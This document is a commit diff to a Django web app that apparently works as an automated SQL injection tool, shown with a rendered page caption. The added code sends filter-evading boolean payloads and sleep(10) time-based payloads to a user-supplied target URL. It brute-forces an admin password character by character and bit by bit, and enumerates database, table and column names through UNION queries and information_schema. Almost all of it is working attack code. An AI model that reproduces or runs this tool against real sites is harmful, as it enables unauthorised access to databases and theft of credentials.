

Before and after one commit to sujine2/sql, a Django app: page / in a window 1280 px wide. Shown: the top 701 px of the page, without its empty margins (0-640 px from the left). Run offline with Django 3.2, Linux system fonts and the light colour scheme.

Commit message:
five commit

```diff
--- a/injection/templates/injection/index.html
+++ b/injection/templates/injection/index.html
@@ -51,10 +51,18 @@
     <p>URL: <input type="text" name="url"> </p>
     <p>COOKIE: <input type="text" name="cookie"> </p>
     <p> FIND: <input type="text" name="find"></p>
+    <h1>Attack Parameter</h1>
+    <p> NAME: <input type="text" name="name"> </p>
+    <p> VALUE: <input type="text" name="parameter"></p>
+
+    <h1>Want to know</h1>
+    <p> NAME: <input type="text" name="know"> </p>
+
+    <!--
     <h1>PRAMETER</h1>
-    <p> NAME: <input type="text" name="name"> </p>
-    <p> PARAMETER: <input type="text" name="parameter"></p>
-    <br>
+    <p> Other PARAMETER: <input type="text" name="parameter2_name"></p>
+    <p> VALUE: <input type="text" name="parameter2_value"></p>
+    -->
     METHOD
     <div>
       <input type="radio" id="get" name="method" value="get" checked>
--- a/injection/views.py
+++ b/injection/views.py
@@ -1,17 +1,20 @@
 import json
+from typing import List
+
 import requests
 from bs4 import BeautifulSoup
 from .models import list
 from ast import literal_eval
 from django.shortcuts import render
 from django.contrib import messages
-from .utils import findUserKeyword, sendQuery
+from .utils import findUserKeyword, sendQuery,sendQuery2
 
 
 def checkAttackAble(dicQuery):
     attack_querys = '\n'
     for i in range(1, 3):
-        res = sendQuery(dicQuery, {dicQuery['name']: dicQuery['parameter'] + f"' and 1={i}-- "})
+        res = sendQuery(dicQuery, {
+            dicQuery['name']:  f"'	&&	1={i}--	" })
         result = findUserKeyword(res, dicQuery['find'])
 
         if result[0] == 1:
@@ -21,7 +24,8 @@ def checkAttackAble(dicQuery):
             return 1, attack_querys, start
 
         else:
-            res = sendQuery(dicQuery, {dicQuery['name']: dicQuery['parameter'] + f"' or 1={i}-- "})
+            res = sendQuery(dicQuery, {
+                dicQuery['name']: f"'	||	1={i}--	"})
             result = findUserKeyword(res, dicQuery['find'])
             print(result)
 
@@ -30,9 +34,19 @@ def checkAttackAble(dicQuery):
                 start = str(dicQuery['parameter']) + "'"
                 print(2, attack_querys, start)
                 return 1, attack_querys, start
+            else :
+                res = sendQuery(dicQuery, {
+                    dicQuery['name']: dicQuery['parameter'] + f"'	||	1	in	(1)--	"})
+                result = findUserKeyword(res, dicQuery['find'])
+                if result[0] == 1:
+                    attack_querys += result[1] + '\n'
+                    start = str(dicQuery['parameter']) + "'"
+                    return 1, attack_querys, start
+
 
     for i in range(1, 3):
-        res = sendQuery(dicQuery, {dicQuery['name']: dicQuery['parameter'] + f'" and 1={i}-- '})
+        res = sendQuery(dicQuery, {
+            dicQuery['name']: dicQuery['parameter'] + f'"	&&	1={i}--	' })
         result = findUserKeyword(res, dicQuery['find'])
 
         if result[0] == 1:
@@ -41,7 +55,8 @@ def checkAttackAble(dicQuery):
             print(3, attack_querys, start)
             return 2, attack_querys, start
         else:
-            res = sendQuery(dicQuery, {dicQuery['name']: dicQuery['parameter'] + f'" or 1={i}-- '})
+            res = sendQuery(dicQuery, {
+                dicQuery['name']: dicQuery['parameter'] + f'"	||	1={i}--	' })
             result = findUserKeyword(res, dicQuery['find'])
 
             if result[0] == 1:
@@ -50,9 +65,18 @@ def checkAttackAble(dicQuery):
                 start = str(dicQuery['parameter']) + '"'
                 print(4, attack_querys, start)
                 return 2, attack_querys, start
+            else:
+                res = sendQuery(dicQuery, {
+                    dicQuery['name']: dicQuery['parameter'] + f'"	||	1	in	(1)--	'})
+                result = findUserKeyword(res, dicQuery['find'])
+                if result[0] == 1:
+                    attack_querys += result[1] + '\n'
+                    start = str(dicQuery['parameter']) + '"'
+                    return 2, attack_querys, start
 
     for i in range(1, 3):
-        res = sendQuery(dicQuery, {dicQuery['name']: dicQuery['parameter'] + f' and 1={i}-- '})
+        res = sendQuery(dicQuery, {
+            dicQuery['name']: dicQuery['parameter'] + f'	&&	1={i}--	'})
         result = findUserKeyword(res, dicQuery['find'])
 
         if result[0] == 1:
@@ -60,17 +84,58 @@ def checkAttackAble(dicQuery):
             start = str(dicQuery['parameter'])
             print(5, attack_querys, start)
             return 3, attack_querys, start
+
         else:
-            res = sendQuery(dicQuery, {dicQuery['name']: dicQuery['parameter'] + f' or 1={i}-- '})
+            res = sendQuery(dicQuery, {
+                dicQuery['name']: dicQuery['parameter'] + f'	||	1={i}--	'})
             result = findUserKeyword(res, dicQuery['find'])
+            if result[0] != 1:
+                res = sendQuery(dicQuery, {
+                    dicQuery['name']: dicQuery['parameter'] + f'-999	||	1={i}--	'})
+                result = findUserKeyword(res, dicQuery['find'])
+
 
         if result[0] == 1:
             attack_querys += result[1] + '\n'
             start = str(dicQuery['parameter'])
             print(6, attack_querys, start)
             return 3, attack_querys, start
+        else:
+            res = sendQuery(dicQuery, {
+                dicQuery['name']: dicQuery['parameter'] + f"-999	||	1	in	(1)--	"})
+            result = findUserKeyword(res, dicQuery['find'])
+            if result[0] == 1:
+                attack_querys += result[1] + '\n'
+                start = str(dicQuery['parameter'])+'-9999'
+                return 3, attack_querys, start
 
-    return -1, '', ''
+
+    res = sendQuery2(dicQuery, {
+        dicQuery['name']: dicQuery['parameter'] + f'"	||	1=1	&&	sleep(10)--	'})
+    if res == 1 :
+        start = str(dicQuery['parameter']) + '"'
+        return 2, attack_querys, start
+    res = sendQuery2(dicQuery, {
+        dicQuery['name']: dicQuery['parameter'] + f"'	||	1=1	&&	sleep(10)--	"})
+    if res == 1:
+        start = str(dicQuery['parameter']) + "'"
+        return 1, attack_querys, start
+    res = sendQuery2(dicQuery, {
+        dicQuery['name']: dicQuery['parameter'] + f'"	&&	1=1	&&	sleep(10)--	'})
+    if res == 1:
+        start = str(dicQuery['parameter']) + '"'
+        return 2, attack_querys, start
+    res = sendQuery2(dicQuery, {
+        dicQuery['name']: dicQuery['parameter'] + f"'	&&	1=1	&&	sleep(10)--	"})
+    if res == 1:
+        start = str(dicQuery['parameter']) + "'"
+        return 1, attack_querys, start
+
+
+
+
+
+    return '', '', ''
 
 
 def exploit2 (dicQuery, query):
@@ -106,12 +171,13 @@ def retry(request):
             return render(request, 'injection/result.html', {'ttt': testtest, 'f': '1'})
 
 
-def brute(start,dicQuery,attack_querys):
+def brute(start,dicQuery,attack_querys,know):
     length = 0
     getvalue = []
     n = int(dicQuery['range'])
     for i in range(1, n):
-        res = sendQuery(dicQuery, {dicQuery['name']: str(start) + f" or id='admin' and length(" + dicQuery['name'] + f")={i}-- "})
+        res = sendQuery(dicQuery, {
+            dicQuery['name']: str(start) + f"	||	id='admin'	&&	length(" + know + f")={i}--	"})
         result = findUserKeyword(res, dicQuery['find'])
         print(result)
         if result[0] == 1:
@@ -121,7 +187,8 @@ def brute(start,dicQuery,attack_querys):
     if length != 0:
         for i in range(1, length + 1):
             for j in range(1, 9):
-                res = sendQuery(dicQuery, {dicQuery['name']:  str(start) + " or id='admin' and length(substr(" + dicQuery['name'] + f",{i},1))={j}-- "})
+                res = sendQuery(dicQuery, {
+                    dicQuery['name']:  str(start) + "	||	id='admin'	&& length(substr(" + know + f",{i},1))={j}--	"})
                 result = findUserKeyword(res, dicQuery['find'])
                 print(result)
                 if result[0] == 1:
@@ -134,11 +201,13 @@ def brute(start,dicQuery,attack_querys):
         print('length', length)
         print(getvalue)
 
-        for j in range(1, length + 1):
+        for j in range(1, len(getvalue) + 1):
+            print(j,len(getvalue))
             pw = ''
             bit = 8 * getvalue[j - 1]
             for i in range(1, bit + 1):
-                res = sendQuery(dicQuery, {dicQuery['name']:  str(start) + " or id='admin' and substr(lpad(bin(ord(substr(" + dicQuery['name'] + f",{j},1))),{bit},0),{i},1)=1-- "})
+                res = sendQuery(dicQuery, {
+                    dicQuery['name']:  str(start) + "	||	id='admin'	&&	substr(lpad(bin(ord(substr(" + know + f",{j},1))),{bit},0),{i},1)=1--	"})
                 result = findUserKeyword(res, dicQuery['find'])
                 attack_querys += result[1] + '\n'
                 try:
@@ -156,9 +225,133 @@ def brute(start,dicQuery,attack_querys):
             print("pw: %s" % (pw_result))
 
 
-        return pw_result,attack_querys
+        return pw_result,attack_querys,length
     else :
-        return '', attack_querys
+        db_query = list.objects.filter(stand='query')
+        for i in db_query :
+            res = sendQuery(dicQuery, {
+                dicQuery['name']: start + str(i)})
+            result = findUserKeyword(res, dicQuery['find'])
+
+            if result[0] == 1:
+                attack_querys += result[1] + '\n'
+                return i, attack_querys,length
+
+        return '', attack_querys,length
+
+def brute2(start,dicQuery,attack_querys,pw_len,know):
+    pw =''
+    if pw_len == 0 :
+        n = int(dicQuery['range'])
+        for i in range(n + 1):
+            res = sendQuery(dicQuery, {
+                dicQuery['name']: str(start) + f"	||	id	in	('admin')	&&	length(" + know + f")>{i}--	"})
+            result = findUserKeyword(res, dicQuery['find'])
+            print(result)
+            if result[0] == 0:
+                st = "'"
+                attack_querys += result[1] + '\n'
+                length = i
+                pw_len = i
+                break
+
+
+    if pw_len == 0 :
+        n = int(dicQuery['range'])
+        for i in range(n + 1):
+            res = sendQuery(dicQuery, {
+                dicQuery['name']: str(start) + f'	||	id	in	("admin")	&&	length(' + know + f')>{i}--	'})
+            result = findUserKeyword(res, dicQuery['find'])
+            print(result)
+            if result[0] == 0:
+                st = '"'
+                attack_querys += result[1] + '\n'
+                length = i
+                pw_len = i
+                break
+
+
+    getvalue = []
+    for i in range(1,pw_len+1):
+        for j in range(20,int(dicQuery['range'])+100):
+            res = sendQuery(dicQuery, {
+                dicQuery['name']: str(start) + f"	||	id=" + st + 'admin' + st + f"	&&	ascii(mid("+ know + f",{i},1))={j}--	"})
+            result = findUserKeyword(res, dicQuery['find'])
+            print(result)
+            if result[0] == 1:
+                attack_querys += result[1] + '\n'
+                pw += chr(j)
+                print(pw)
+                break
+        if pw =='':
+            break
+    print(pw,'최종pw값')
+
+    if pw == '' :
+        for i in range(1, pw_len + 1):
+            for j in range(20, int(dicQuery['range']) + 100):
+                res = sendQuery(dicQuery, {
+                    dicQuery['name']: str(start) + f"	||	id	in	("+ st + 'admin'+ st +f")	&&	ascii(mid("+ know + f",{i},1))>{j}--	"})
+                result = findUserKeyword(res, dicQuery['find'])
+                print(result)
+                if result[0] == 0 :
+                    if j == 20:
+                        break
+                    attack_querys += result[1] + '\n'
+                    pw += chr(j)
+                    print(pw)
+                    break
+            if pw == '':
+                break
+
+
+        if pw == '':
+            if length != 0:
+                for i in range(1, length + 1):
+                    for j in range(1, 9):
+                        res = sendQuery(dicQuery, {
+                            dicQuery['name']: str(start) + "	||	id	in	("+ st +'admin'+ st + f")	&&	length(mid(" + know + f",{i},1))>{j}--	"})
+                        result = findUserKeyword(res, dicQuery['find'])
+                        print(result)
+                        if result[0] == 0:
+                            attack_querys += result[1] + '\n'
+                            getvalue.append(j)
+                            break
+
+                pw_result = ''
+                a = []
+                print('length', length)
+                print(getvalue)
+
+
+
+                for j in range(1, len(getvalue) + 1):
+                    print(j, len(getvalue))
+                    pw = ''
+                    bit = 8 * getvalue[j - 1]
+                    for i in range(1, bit + 1):
+                        res = sendQuery(dicQuery, {
+                            dicQuery['name']: str(start) + "	||	id	in	("+ st +'admin'+ st +f")	&&	mid(lpad(bin(ord(mid(" +
+                                              know + f",{j},1))),{bit},0),{i},1)>0--	"})
+                        result = findUserKeyword(res, dicQuery['find'])
+                        attack_querys += result[1] + '\n'
+                        try:
+                            if result[0] == 1:
+                                pw += '1'
+                            else:
+                                pw += '0'
+                        except:
+                            import traceback
+                            print(traceback.format_exc())
+
+                        print(pw)
+                    a.append(pw)
+                    pw_result += chr(int(pw, 2))
+                    print("pw: %s" % (pw_result))
+
+                return pw_result, attack_querys
+
+    return pw,attack_querys
 
 
 
@@ -169,10 +362,10 @@ def db_union(dicQuery,start):
     print(db_union)
     for i in db_union:
         print(i)
-        res = sendQuery(dicQuery, {dicQuery['name']: start + ' ' + str(i)})
+        res = sendQuery(dicQuery, {dicQuery['name']: start + ' ' + str(i)+' && sleep(10)--	'})
         print(res.url)
-        result = findUserKeyword(res, dicQuery['find'])
-        if result[0] == 1 :
+        if res == 1 :
+            print('1')
             cnt = 1
             while True :
 
@@ -182,32 +375,42 @@ def db_union(dicQuery,start):
 
                     for k in db_union:
                         find_list_text = []
-                        res = sendQuery(dicQuery, {dicQuery['name']: start + ' '+ str(k)})
+                        res = sendQuery(dicQuery, {
+                            dicQuery['name']: start + ' '+ str(k)})
                         page = BeautifulSoup(res.text, 'html.parser')
 
 
-                        #print(find_list)
+                        print(page)
 
                         for find_text in page.select('div'):
                             find_list_text.append(find_text.text.replace('\n',''))
-                        #print(find_list_text)
+                        print('check',find_list_text)
+
+                        '''
+
+                        if len(find_list_text) == 0:
+                            for find_text in page.select('h2'):
+                                find_list_text.append(find_text.text.replace('\n', ''))
+                            print('check', find_list_text)
+                        '''
 
                         for j in range(1, cnt):
                             print('들어왔음요')
                             for tmp in range(len(find_list_text)):
-                                #print(j,find_list_text[tmp])
+                                print(j,find_list_text[tmp])
                                 if str(j) == find_list_text[tmp]:
                                     print('같은 원소 찾음요')
-                                    #print(j,find_list_text[tmp])
+                                    print(j,find_list_text[tmp])
                                     index = tmp
                                     print(index)
 
                                     result_list_text = []
                                     k_new = str(k).replace(f'{j}','database()')
-                                    res = sendQuery(dicQuery, {dicQuery['name']: start + ' ' + k_new})
+                                    res = sendQuery(dicQuery, {
+                                        dicQuery['name']: start + ' ' + k_new})
                                     page = BeautifulSoup(res.text, 'html.parser')
 
-                                    for find_text in page.select('div'):
+                                    for find_text in page.select('span'):
                                         result_list_text.append(find_text.text.replace('\n', ''))
 
                                     print(result_list_text[index])
@@ -219,7 +422,8 @@ def db_union(dicQuery,start):
                                     k_new = k_new.replace('-- ',f' from information_schema.tables where table_schema="{db_name}"-- ')
                                     print(k_new)
 
-                                    res = sendQuery(dicQuery, {dicQuery['name']: start + ' ' + k_new})
+                                    res = sendQuery(dicQuery, {
+                                        dicQuery['name']: start + ' ' + k_new})
                                     page = BeautifulSoup(res.text, 'html.parser')
 
 
@@ -376,7 +580,7 @@ def table_name(dicQuery,start,db_name):
 
 
 def column_name(dicQuery,start,table_name):
-    column_name_result = []
+    column_name_result = {}
     for tb_name in table_name :
         column_name = []
         n = int(dicQuery['range'])
@@ -410,7 +614,7 @@ def column_name(dicQuery,start,table_name):
         getvalue = []
         print(len(column_name_length))
         n = len(column_name_length)
-        if len == 0:
+        if n == 0:
             return ''
         for i in range(n):
             tmp = []
@@ -453,7 +657,7 @@ def column_name(dicQuery,start,table_name):
 
         #print(column_name)
 
-        column_name_result.append(column_name)
+        column_name_result[tb_name] = column_name
 
     print(column_name_result)
 
@@ -484,9 +688,8 @@ def main(request):
         name = request.POST.get("name", False)
         method = request.POST.get("method", False)
         parameter = request.POST.get("parameter", False)
-        range = request.POST.get("slider",False)
-
-        print(range)
+        slider = request.POST.get("slider",False)
+        know = request.POST.get("know",False)
 
 
         user_query['url'] = url
@@ -495,7 +698,9 @@ def main(request):
         user_query['name'] = name
         user_query['method'] = method
         user_query['parameter'] = parameter
-        user_query['range'] = range
+        user_query['range'] = slider
+        user_query['know'] = know
+
 
         a, value, start = checkAttackAble(user_query)
         print('start',start)
@@ -503,11 +708,27 @@ def main(request):
         print('value', value)
 
 
+
         column_cnt = ''
         db_name = ''
         table = ''
-        if a != -1 :
-            pw, value = brute(start, user_query, value)
+        column = ''
+        pw = {}
+
+        attack = user_query['know'].split(',')
+
+        for know in attack :
+
+            pw[know], value,length = brute(start, user_query, value, know)
+            print(pw,'확인 1 --------------')
+            #print(bin(ord(pw)),'확인-------------')
+            #print(len(pw),'pw_length')
+
+
+            if pw[know] == '        ' or pw[know] == '                ' or pw[know] == '                        ' or pw[know] == '':
+                pw[know], value =  brute2(start,user_query,value,length,know)
+
+
 
         column_cnt,db_name = db_union(user_query,start)
         print(db_name)
@@ -520,10 +741,12 @@ def main(request):
 
         List = list.objects.order_by()
 
-        if (a >= -1):
+        print(pw,'확인 -----------')
+
+        if (a != ''):
             if (a == 1):
                 return render(request, 'injection/result.html',
-                              {'data': value, 'double': '1', 'origin': str(user_query), 'list': List, 'pw' : pw,'column_cnt':column_cnt, 'db_name': db_name,'table_name': table, 'column_name' : column})
+                              {'data': value, 'double': '1', 'origin': str(user_query), 'list': List, 'pw' : pw, 'db_name': db_name,'table_name': table, 'column_name' : column})
             elif (a == 2):
                 return render(request, 'injection/result.html',
                               {'data': value, 'single': '1', 'origin': str(user_query), 'list': List, 'pw' : pw,'column_cnt':column_cnt, 'db_name': db_name,'table_name': table,'column_name' : column})
@@ -531,7 +754,7 @@ def main(request):
                 return render(request, 'injection/result.html',
                               {'data': value, 'integer': '1', 'origin': str(user_query), 'list': List, 'pw' : pw,'column_cnt':column_cnt, 'db_name': db_name,'table_name': table, 'column_name' : column})
 
-    else:
-        return render(request, 'injection/index.html', {})
+        else:
+            return render(request, 'injection/result.html',{'data': value,'list': List, 'origin': str(user_query), 'pw' : pw,'column_cnt':column_cnt, 'db_name': db_name,'table_name': table, 'column_name' : column})
 
     return 1
```
Also changed, not shown: injection/templates/injection/result.html (+23 -4 lines), injection/utils.py (+31 -0 lines), db.sqlite3.
